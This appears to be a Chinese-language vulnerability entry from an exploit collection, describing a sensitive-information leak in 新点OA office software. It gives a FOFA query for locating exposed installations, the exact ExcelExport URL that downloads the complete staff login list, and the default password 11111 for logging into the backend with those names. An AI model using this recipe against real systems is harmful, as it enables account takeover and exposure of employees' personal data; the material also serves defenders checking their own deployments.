 # 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

<a-checkbox checked>新点OA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="新点OA"</a-checkbox></br>

## 漏洞复现

构造的Url为, 将会下载人员列表文件

```plain
/ExcelExport/人员列表.xls
```



![img](../../../.vuepress/public/img/xd-1.png)



通过获取的登录名登陆后台(默认密码11111)